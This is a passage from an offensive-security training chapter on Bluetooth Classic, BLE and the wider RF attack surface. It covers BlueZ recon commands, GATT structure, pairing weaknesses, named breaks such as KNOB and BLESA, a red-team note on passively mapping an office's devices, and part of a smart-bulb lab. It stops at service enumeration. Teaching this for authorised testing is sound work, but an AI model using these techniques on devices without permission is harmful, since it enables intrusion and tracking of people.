







This is Chapter 6 of the Wireless notebook. The previous five chapters lived almost entirely inside 802.11 Wi-Fi — capturing handshakes, cracking PSKs, standing up evil twins, and abusing deauthentication and WPS. Wi-Fi is the loudest thing in the 2.4 GHz band, but it is far from the only thing there. Sitting right next to it, sharing the same crowded slice of spectrum, is **Bluetooth** — and around it, spread across the rest of the radio dial, is a whole zoo of wireless protocols that ship in door locks, medical devices, car key fobs, industrial sensors, fitness trackers, and the smart bulb on your desk. Every one of those is an antenna that will talk to anyone who knows the language.

This chapter is about learning those other languages. We start with **Classic Bluetooth** (the "BR/EDR" radio in your headphones and car), move into **Bluetooth Low Energy** (BLE — the protocol behind almost every "smart" gadget shipped in the last decade), and then widen out to the rest of the **RF attack surface**: sub-GHz remotes, RFID/NFC cards, Zigbee and Z-Wave mesh devices, and the **software-defined radio (SDR)** workflow that lets one piece of hardware listen to almost all of it. The goal is that a complete beginner finishes able to enumerate a BLE device, read and write its characteristics, and reason about where the bugs live — while a senior engineer picks up the link-layer internals, the named cryptographic breaks, and the detection story.

Everything here is **authorised-testing-only**. Transmitting on licensed spectrum, jamming, replaying a neighbour's garage remote, or connecting to a medical device you don't own ranges from a serious felony to a genuine safety hazard. In the US, unauthorised RF transmission is an FCC violation and unauthorised device access is a Computer Fraud and Abuse Act problem; in the UK it's the Wireless Telegraphy Act and the Computer Misuse Act. Build the lab against a cheap smart bulb or a dev board you own, and stay inside written scope on every engagement.

---

## Part 1: Radio First Principles — What "Wireless" Actually Means

Before any Bluetooth-specific tooling makes sense, you need a working mental model of radio itself. Skip this and every later command becomes cargo-culting. If you already think in dBm and channels, skim to Part 2.

### Frequency, band, and channel

A radio wave is an electromagnetic oscillation, and its **frequency** — measured in hertz (Hz), cycles per second — is what distinguishes one signal from another. Cybersecurity-relevant radio lives in a few **bands**:

- **Sub-GHz ISM bands**: 315 MHz (US car fobs), 433.92 MHz (Europe/Asia remotes, sensors), 868 MHz (EU), 915 MHz (US). "ISM" = Industrial, Scientific, Medical — licence-free bands anyone may use under power limits.
- **2.4 GHz ISM**: the big one. Wi-Fi, Bluetooth (Classic and BLE), Zigbee, and many proprietary protocols all crowd in here. It is globally licence-free, which is exactly why it's a swamp.
- **5 GHz / 6 GHz**: mostly Wi-Fi.
- **13.56 MHz**: NFC / high-frequency RFID.
- **125 kHz**: low-frequency RFID (old badge access, pet chips).

A **channel** is a named sub-slice of a band. Wi-Fi channel 6 is 2.437 GHz; BLE advertising channel 37 is 2.402 GHz. Two radios must be on the same frequency at the same time to hear each other — which is why "hopping" (changing channel rapidly) is both a feature (avoiding interference) and an obstacle (a sniffer has to follow the hops).

### Power, in decibels, and why dBm confuses everyone

Radio power is quoted in **dBm** — decibels relative to one milliwatt. It is a *logarithmic* scale, which trips up every beginner:

- 0 dBm = 1 mW.
- +10 dBm = 10 mW (ten times more).
- +20 dBm = 100 mW.
- −30 dBm is a *weak received* signal; −90 dBm is right down in the noise floor.

Two rules of thumb worth memorising: **+3 dB ≈ double the power**, and **+10 dB ≈ ten times the power**. Received signal strength (RSSI) is almost always negative because you're receiving a tiny fraction of what was transmitted. Closer device → less negative (stronger) RSSI. This matters offensively: RSSI is how you tell "the tag is on this shelf" from "the tag is in the next room," and it's the basis of proximity attacks and asset tracking.

### Modulation — how bits ride the wave

You can't send data by frequency alone; you have to *modulate* the carrier — vary something about the wave to encode 1s and 0s. The three families you'll meet:

- **ASK/OOK** (Amplitude-Shift Keying / On-Off Keying): the carrier is turned on for a 1 and off for a 0. Dead simple, used by cheap 433 MHz remotes. Trivial to replay.
- **FSK/GFSK** (Frequency-Shift Keying, Gaussian-filtered): shift the frequency slightly up for 1, down for 0. **Bluetooth and BLE use GFSK.**
- **PSK/QAM**: shift the *phase* (and, for QAM, amplitude too). Higher throughput, used by Wi-Fi and LTE.

Why you care: a sniffer or SDR has to know the modulation to decode anything. When you point an SDR at an unknown remote, half the job is identifying the modulation before you can lift the bits.

### The RF attack surface at a glance



Keep this map in your head. The rest of the chapter walks its branches, spending most time on Bluetooth because that's where the richest, most reachable bugs are for a working pentester.

---

## Part 2: Bluetooth from Zero — Classic (BR/EDR) vs Low Energy

**Bluetooth** is a short-range wireless standard governed by the Bluetooth Special Interest Group (SIG). The name and logo are a bind-rune of the initials of Harald "Bluetooth" Gormsson, a 10th-century Danish king who united tribes — the marketing conceit being that Bluetooth unites devices. Useful trivia for a CTF `whoami`, less useful on an engagement.

The single most important thing to internalise early: **"Bluetooth" is two mostly-separate radios that share a brand and a band.**

- **Bluetooth Classic — BR/EDR** (Basic Rate / Enhanced Data Rate): the original, from 1999. Continuous streaming, higher throughput (up to ~3 Mbit/s EDR). Powers audio (A2DP headphones, car kits), file transfer, and legacy serial links (RFCOMM). Uses 79 channels of 1 MHz, hops 1600 times/second.
- **Bluetooth Low Energy — BLE** (a.k.a. Bluetooth Smart), introduced in Bluetooth 4.0 (2010): a *completely different link layer* designed for coin-cell devices that sleep most of the time and wake to send tiny bursts. It uses 40 channels of 2 MHz, has a totally different pairing model, and is the protocol behind almost every "smart" consumer gadget: fitness bands, beacons, locks, bulbs, medical sensors, keyboards.

A "dual-mode" chip (in your phone) does both. A "single-mode" chip (in a $2 beacon) does only BLE. **They are not interoperable at the link layer** — a Classic headphone and a BLE bulb literally cannot talk to each other, even though both say "Bluetooth 5.2" on the box.

| Dimension | Classic (BR/EDR) | Low Energy (BLE) |
|---|---|---|
| Introduced | Bluetooth 1.0 (1999) | Bluetooth 4.0 (2010) |
| Channels | 79 × 1 MHz | 40 × 2 MHz (3 advertising, 37 data) |
| Hop rate | 1600 hops/s | Adaptive, per-connection |
| Discovery | Inquiry (BD_ADDR + name) | Advertising packets |
| Data model | Profiles (A2DP, HFP, RFCOMM…) | GATT (services/characteristics) |
| Typical use | Audio, file transfer, serial | Sensors, beacons, locks, wearables |
| Power draw | High (streaming) | Very low (bursty) |
| Pairing crypto | Legacy / SSP (E0, later AES) | LE Legacy / LE Secure Connections |
| Address | 48-bit BD_ADDR | Public or Random (often rotating) |

### The Bluetooth address (BD_ADDR)

Every Bluetooth radio has a 48-bit address, written like a MAC: `AA:BB:CC:DD:EE:FF`. The top 24 bits are an **OUI** (Organizationally Unique Identifier) assigned to the vendor — so `DC:A6:32` tells you it's a Raspberry Pi, useful for fingerprinting a target's device inventory. In **BLE**, though, the address is frequently a **Random** address that *rotates* every ~15 minutes (a "Resolvable Private Address," RPA) specifically to defeat tracking — more on why that both helps and fails in Part 6.

### Where Bluetooth sits in the stack



The **HCI** (Host Controller Interface) is the boundary you'll live at as an attacker on Linux: it's the API between the OS's Bluetooth stack (BlueZ, on Linux) and the radio chip. Almost every Linux tool — `hcitool`, `hciconfig`, `bluetoothctl` — is issuing HCI commands under the hood. Understanding this line explains why some attacks (link-layer sniffing) need special hardware while others (talking to GATT) work with any built-in adapter.

---

## Part 3: The Linux Bluetooth Toolkit — BlueZ from Scratch

On Linux, the entire Bluetooth stack is **BlueZ**. Before touching a target, get comfortable driving it. Everything below assumes a standard USB or built-in Bluetooth adapter; you don't need special hardware yet.

### Confirming the adapter

```bash
# List Bluetooth controllers the kernel sees
hciconfig -a
```

`hciconfig` is the Bluetooth equivalent of `ifconfig`. Typical output:

```
hci0:   Type: Primary  Bus: USB
        BD Address: DC:A6:32:11:22:33  ACL MTU: 1021:8  SCO MTU: 64:1
        UP RUNNING
        RX bytes:1024 acl:0 sco:0 events:44 errors:0
        TX bytes:900 acl:0 sco:0 commands:44 errors:0
```

Reading it: `hci0` is the device name (like `eth0`), `BD Address` is your adapter's address, `UP RUNNING` means it's enabled. If it says `DOWN`:

```bash
sudo hciconfig hci0 up      # bring the interface up
```

Flags worth knowing:

- `hciconfig hci0 up` / `down` — enable/disable the radio.
- `hciconfig hci0 piscan` — make the adapter both **p**age-scannable and **i**nquiry-scannable (discoverable + connectable).
- `hciconfig hci0 noscan` — hide it.
- `hciconfig hci0 name "Foo"` — set the friendly name your adapter broadcasts.
- `hciconfig hci0 class 0x000100` — set the Class of Device (spoofing what *kind* of device you claim to be).

### Discovering Classic devices — inquiry scan

```bash
# Classic inquiry scan: find discoverable BR/EDR devices
hcitool scan
```

`hcitool scan` performs a **Bluetooth inquiry** — it shouts "who's there?" and every device in *discoverable* mode answers with its BD_ADDR and name:

```
Scanning ...
        4C:87:5D:AB:CD:EF       Pixel 7
        00:1A:7D:DA:71:13       JBL Flip 5
```

The catch, and it's a big one: most devices are **not discoverable by default**. Your phone is only discoverable while the Bluetooth settings screen is open. So an inquiry scan finds almost nothing in the real world — which is the first lesson of Bluetooth recon: *absence of results is not absence of devices.* Non-discoverable devices still exist and can often still be connected to if you learn their address by other means.

Newer BlueZ deprecates `hcitool` in favour of `bluetoothctl`, an interactive shell:

```bash
bluetoothctl
```
```
[bluetooth]# power on
[bluetooth]# scan on          # scans BOTH Classic and BLE
...
[NEW] Device AC:23:3F:AA:BB:CC Govee_Bulb_1234
[CHG] Device AC:23:3F:AA:BB:CC RSSI: -61
[bluetooth]# devices          # list what we've found
[bluetooth]# info AC:23:3F:AA:BB:CC   # dump details of one device
[bluetooth]# scan off
```

`scan on` in `bluetoothctl` is the modern, unified discovery command and the one you'll actually use — it surfaces BLE advertisers too, which `hcitool scan` never will.

### Service enumeration — SDP

Once you have a Classic device's address, ask what services it exposes:

```bash
# Service Discovery Protocol browse
sdptool browse AC:23:3F:AA:BB:CC
```

**SDP** (Service Discovery Protocol) is Classic Bluetooth's "port scan." It returns the **profiles** the device supports — each with a UUID, protocol, and channel. Output is verbose; the useful bits:

```
Service Name: Audio Sink
Service RecordHandle: 0x10001
Service Class ID List:
  "Audio Sink" (0x110b)
Protocol Descriptor List:
  "L2CAP" (0x0100)
  "AVDTP" (0x0019)
```

Each `Service Class ID` maps to a capability (Audio Sink = it plays audio; Serial Port = RFCOMM shell; Handsfree = phone audio). This is your Classic attack-surface map. The RFCOMM channel numbers you find here are what you'd target for legacy serial exploits.

### Grabbing signal strength and info without pairing

```bash
# One-shot info about a remote device (name, features, version)
hcitool info 00:1A:7D:DA:71:13
```

This performs a *connection request* to read remote features without full pairing — it reveals the LMP (Link Manager Protocol) version, which tells you the Bluetooth spec level (and therefore which historical vulnerabilities might apply). A device reporting LMP 4.0 can't have the fixes that shipped in 4.2/5.0.

> **Red-team note.** The device-inventory value of passive Bluetooth recon is underrated. Walking a target's office with a laptop running `bluetoothctl scan on` logging BD_ADDRs, OUIs, and names quietly maps their wireless device estate — printers, conference speakers, wearables, badge readers — without ever transmitting an attack. OUIs reveal vendors; names often leak usernames ("Sarah's AirPods"). It's pure passive collection and it feeds phishing and physical-access planning.

---

## Part 4: Bluetooth Low Energy Internals — Advertising, GATT, and the Data Model

BLE is where most of your Bluetooth pentesting time will go, because BLE devices are everywhere, cheap, rushed to market, and frequently have no meaningful security at all. To attack BLE you must understand two things cold: **how devices advertise**, and **the GATT data model**.

### The 40 channels and the three advertising channels

BLE splits 2.4 GHz into **40 channels of 2 MHz** each, numbered 0–39 by "channel index":

- **Channels 37, 38, 39** are the **advertising channels**. They're deliberately spaced across the band (2402, 2426, 2480 MHz) to dodge Wi-Fi interference — Wi-Fi channels 1, 6, 11 sit in the gaps.
- **Channels 0–36** are **data channels**, used only after a connection is established, hopping among them.

An unconnected BLE device spends its life **advertising**: every *advertising interval* (20 ms to 10.24 s) it transmits a small packet on 37, then 38, then 39. That packet contains its address, some flags, and up to 31 bytes of advertising data — the device name, a list of service UUIDs it offers, transmit power, and often **manufacturer-specific data** (this is where iBeacon/Eddystone beacons, and a shocking amount of leaked telemetry, live).



Two packet types to know: **ADV_IND** (connectable, undirected — "anyone may connect") is the common case; **ADV_NONCONN_IND** is a beacon that never accepts connections (iBeacon). **SCAN_REQ/SCAN_RSP** is the scanner asking for the extra 31 bytes, which is why some data only appears in a full "active scan."

### Passive vs active scanning

```bash
# Enable BLE scanning with hcitool (older) — lists advertisers
sudo hcitool lescan
```
```
LE Scan ...
AC:23:3F:AA:BB:CC (unknown)
AC:23:3F:AA:BB:CC Govee_Bulb_1234
5F:2E:9D:01:AB:CD (unknown)
```

`lescan` does an **active scan** by default (it sends SCAN_REQ). To be quiet — no transmissions, pure listening — use `--passive`:

```bash
sudo hcitool lescan --passive --duplicates
```

- `--passive` — never send SCAN_REQ; only listen. Stealthier and doesn't reveal your presence, but you miss scan-response data.
- `--duplicates` — show every advertisement, not just the first per device (lets you watch RSSI change and catch rotating data).

For raw visibility, dump the HCI events themselves:

```bash
sudo btmon        # live decode of everything crossing the HCI boundary
```

`btmon` is the single most useful diagnostic tool in BlueZ. It's a Bluetooth Wireshark for the HCI interface — you see every advertising report, connection event, ATT read/write, and error code live. Learn to read it; it's how you debug why a connection dropped or an encryption negotiation happened.

### Parsing advertising data — the AD structure format

The 31 bytes of advertising payload aren't freeform; they're a sequence of **AD structures**, each `[length][type][data...]`. The `length` byte counts the type byte plus the data; the `type` byte identifies what the field is. You will read these constantly in `btmon`, Wireshark, and raw captures, so learn the common types:

| AD Type | Hex | Meaning |
|---|---|---|
| Flags | `0x01` | Discoverable/BR-EDR-support bitfield |
| Incomplete 16-bit UUIDs | `0x02` | Some of the service UUIDs offered |
| Complete 16-bit UUIDs | `0x03` | All 16-bit service UUIDs |
| Shortened Local Name | `0x08` | Truncated device name |
| Complete Local Name | `0x09` | Full device name |
| Tx Power Level | `0x0A` | Transmit power (for RSSI distance math) |
| Service Data | `0x16` | Data tied to a service (Eddystone lives here) |
| Manufacturer Specific | `0xFF` | Vendor blob — first 2 bytes = company ID |

Worked example — decode this raw advertising payload byte by byte:

```
02 01 06  0f 09 47 6f 76 65 65 5f 42 75 6c 62 5f 31 32 33 34  03 03 e0 ff
```

- `02 01 06` → length 2, type `0x01` Flags, value `06` (LE General Discoverable + BR/EDR not supported).
- `0f 09 47 6f...34` → length 15, type `0x09` Complete Local Name, value = ASCII `Govee_Bulb_1234`.
- `03 03 e0 ff` → length 3, type `0x03` Complete 16-bit UUIDs, value `ffe0` (little-endian → service `0xFFE0`).

So *before ever connecting*, this advertisement already told us the device name and that it offers the `0xFFE0` vendor service — the same service whose writable `0xFFE1` characteristic we abuse in the lab. Manufacturer-specific (`0xFF`) fields are the juiciest: the leading two bytes are the SIG-assigned **Company ID** (e.g. `4c 00` = Apple, `75 00` = Samsung), and everything after is vendor telemetry that has leaked serial numbers, battery state, sensor readings, and even door-open events in shipped products. Passive collection of `0xFF` blobs across a building is a real-world recon technique.

### GATT — the heart of BLE

Once connected, all BLE data access happens through **GATT** (Generic Attribute Profile), which sits on **ATT** (the Attribute Protocol). Think of a BLE device as a tiny key-value database. Its structure is a strict three-level hierarchy:

- **Services** — logical groupings of functionality (e.g., "Battery Service," "Device Information," a vendor's "Light Control Service"). Each has a UUID.
- **Characteristics** — the actual data fields inside a service (e.g., "Battery Level," "Firmware Revision," "Light On/Off"). Each has a UUID, a value, and a set of **properties** (Read, Write, Write-Without-Response, Notify, Indicate).
- **Descriptors** — metadata about a characteristic (units, a human-readable name, and crucially the **CCCD** — Client Characteristic Configuration Descriptor — the on/off switch for notifications).

Every attribute lives at a 16-bit **handle** (`0x0001`, `0x0002`…). Handles are the "addresses" you read and write.



**Standard 16-bit UUIDs** (like `0x180F` Battery, `0x2A19` Battery Level) are SIG-assigned and universal — memorise a handful. **128-bit UUIDs** (like `0000ffe1-0000-1000-8000-00805f9b34fb`) are vendor-custom; these are where the interesting, undocumented, often-unauthenticated functionality lives. When you find a device that's *all* custom 128-bit UUIDs, that's a product that rolled its own protocol — historically a rich seam of bugs.

### Characteristic properties — the permission bits

Each characteristic advertises what you're *allowed* to do with it, but critically **these are hints, not enforcement**:

| Property | Meaning | Attacker interest |
|---|---|---|
| Read | Client can read the value | Data exfil — passwords, tokens, PII stored here |
| Write | Client can write (with ack) | Command injection — flip locks, change settings |
| Write Without Response | Client writes, no ack | Fast fuzzing target |
| Notify | Server pushes updates (no ack) | Subscribe to leak live data |
| Indicate | Server pushes updates (acked) | Same, reliable |

The catastrophic-and-common bug: a characteristic marked `Write` that controls something sensitive (unlock the door, disable the alarm) **with no pairing or authentication required**. The property says "writable"; nothing says "only after you authenticate." Vast numbers of shipped BLE products are exactly this insecure. Finding one is often a five-minute job, which is the entire reason BLE is on this syllabus.

---

## Part 5: BLE Pairing, Bonding & the Crypto That Usually Fails

Security in BLE is optional, bolt-on, and historically broken in named, memorable ways. Understanding the pairing state machine tells you *where* to attack.

### Pairing vs bonding vs encryption

- **Encryption** protects a single connection's traffic on the air.
- **Pairing** is the process of two devices agreeing on keys, possibly with authentication (proving there's no man-in-the-middle).
- **Bonding** is *storing* those keys so you don't re-pair next time (the "remembered device" list).

A device can encrypt without authenticating (Just Works pairing), which is where MITM lives.

### The pairing methods and their weaknesses

BLE Legacy Pairing (4.0/4.1) offers four association models:

- **Just Works** — no user interaction, no MITM protection. The "Temporary Key" is **all zeros**. Anyone sniffing the pairing can derive the keys. Overwhelmingly the most common in cheap products, because it needs no screen or keypad.
- **Passkey Entry** — a 6-digit PIN shown on one device, typed on the other. Only ~20 bits of entropy and, in Legacy pairing, sniffable.
- **Out Of Band (OOB)** — keys exchanged via another channel (NFC). Rare.
- **Numeric Comparison** — both devices show a number, user confirms they match. Only available in **LE Secure Connections** (4.2+), which uses ECDH (elliptic-curve Diffie–Hellman) and is the *only* genuinely strong option.

The single biggest takeaway: **LE Legacy pairing is cryptographically weak. If you can capture the pairing exchange, you can recover the Long-Term Key and decrypt everything.** The tool `crackle` does exactly this against captured Legacy pairings.



### The named breaks you must know

These come up constantly in interviews, reports, and CTF flavour text. Know the one-line essence of each:

| Name | Year | Target | Essence |
|---|---|---|---|
| **BlueBorne** | 2017 | BR/EDR + BLE stacks | Set of RCE/MITM bugs in Android/Linux/Windows/iOS Bluetooth stacks needing *no pairing, no user action* — just Bluetooth on. |
| **KNOB** | 2019 | BR/EDR | Key Negotiation of Bluetooth: attacker forces the encryption key down to **1 byte** of entropy during negotiation, then brute-forces it. |
| **BIAS** | 2020 | BR/EDR | Bluetooth Impersonation AttackS: abuse the authentication procedure to impersonate a previously-bonded device without the link key. |
| **BLESA** | 2020 | BLE | BLE Spoofing Attack: reconnection lacks mandatory authentication, so an attacker spoofs a bonded peripheral and feeds fake data. |
| **SweynTooth** | 2020 | BLE SoCs | A family of link-layer parsing bugs (crashes, deadlocks, security bypass) in multiple vendors' BLE chips — including in medical devices. |
| **BrakTooth** | 2021 | BR/EDR SoCs | Similar mass-vulnerability set in Classic controllers — crashes and, on some, code execution. |

The pattern across all of them: **the Bluetooth stack is a huge, historically under-audited attack surface reachable with the radio simply switched on.** That's why "disable Bluetooth when not in use" is real defensive advice, not paranoia.

> **CTF angle.** BLE challenges rarely require breaking crypto. They hand you a device (or a `.pcap`/`.hcidump` capture) and the flag is sitting in a readable characteristic, encoded in manufacturer advertising data, or reconstructed by writing the right value to unlock a "notify" that streams the flag. The skills that win are: enumerate the GATT DB, read everything readable, decode hex/base64 you find, and subscribe to notifications. We do exactly that in the lab below.

---

## Part 6: The BLE Attack Workflow — Hands-On Lab

Time to actually do it. This lab uses a common, cheap target: a **BLE smart bulb** (Govee/Triones-style, ~$10) — but the exact same workflow applies to fitness bands, beacons, and most consumer BLE gear. If you don't have a bulb, a **Raspberry Pi Pico W** or **nRF52 dev board** running a sample peripheral works identically, and many phones can emulate a peripheral with **nRF Connect**.

**Hardware:** any Linux box with a built-in or USB Bluetooth adapter. No special sniffer needed for GATT interaction (you only need Ubertooth/nRF sniffer for *passive link-layer capture*, covered later).

### Step 1 — Discover the target

```bash
sudo hcitool lescan --duplicates
```
```
LE Scan ...
AC:23:3F:AA:BB:CC (unknown)
AC:23:3F:AA:BB:CC Govee_Bulb_1234
```

Note the address `AC:23:3F:AA:BB:CC`. The OUI `AC:23:3F` and the name confirm the vendor. Ctrl-C to stop.

### Step 2 — Enumerate the GATT database

The modern tool is `gatttool` (part of BlueZ) or, better, `bluetoothctl`'s GATT menu. Let's use `gatttool` interactively:

```bash
gatttool -b AC:23:3F:AA:BB:CC -I
```

- `-b` — target BD_ADDR.
- `-I` — interactive mode.

Inside the shell:

```
[AC:23:3F:AA:BB:CC][LE]> connect
Attempting to connect to AC:23:3F:AA:BB:CC
Connection successful
[AC:23:3F:AA:BB:CC][LE]> primary            # list services
attr handle: 0x0001, end grp handle: 0x0007 uuid: 00001800-0000-1000-8000-00805f9b34fb
attr handle: 0x0008, end grp handle: 0x000b uuid: 00001801-0000-1000-8000-00805f9b34fb
attr handle: 0x000c, end grp handle: 0xffff uuid: 0000ffe0-0000-1000-8000-00805f9b34fb
